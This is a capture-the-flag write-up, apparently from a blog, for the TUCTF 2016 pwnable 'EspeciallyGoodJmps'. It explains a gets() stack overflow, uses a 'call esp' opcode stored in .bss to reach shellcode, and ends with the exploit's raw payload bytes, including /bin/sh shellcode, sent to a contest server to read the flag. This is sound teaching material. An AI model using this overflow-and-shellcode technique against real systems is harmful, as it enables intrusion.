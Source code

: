 ```yaml
---
layout: post
title: TUCTF CTF 2016 - EspeciallyGoodJmps
post_author: r00ta
excerpt_separator: <!--more-->
---
```


This is a simple pwnable challenge, solved with a funny trick.

First of all execute `file` command

```bash
$ file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
23e4f31a5a8801a554e1066e26eb34745786f4c4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x161ccbaf95a7d5b84a8298afab8fdeaeedd445c0, not stripped
```

and `checksec` 

```bash
$ ./checksec --file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No	0		4	23e4f31a5a8801a554e1066e26eb34745786f4c4
```

So i expect that i have to do something on the stack.
The program is simple: reads a string with `gets` and an integer and check if it is odd. 

<!--more-->

![Vuln]( {{ site.baseurl }}/files/tuctf2016/pwn75/vuln.png)

We can easily overflow the buffer and execute out shellcode. But the tricky part is to get the address of the buffer due ASLR. So i look for any useful 
gadget in the binary but without luck. 

But the integer `meow` is stored in the `.BSS`

![Meow]( {{ site.baseurl }}/files/tuctf2016/pwn75/meow.png)

 so i can store an instruction that turns the control flow to my shellcode! What about `call esp`? The opcode for `call esp` is `ff d4` so the integer to send is

```bash
 $ python
Python 2.7.3 (default, Mar 13 2014, 11:03:55) 
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xd4ff
54527
```

So we overwrite the return address with `0x804a048` in order to call our istruction.

The full exploit is available [here]( {{ site.baseurl }}/files/tuctf2016/pwn75/exploit.py)! 

Let's PWN them!

```bash
$ python exploit.py 130.211.202.98 7575
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAH�����������1�Ph//shh/bin�����°
    1�@̀, 54527 is an odd number!
ls
easy
flag.txt
cat flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
```
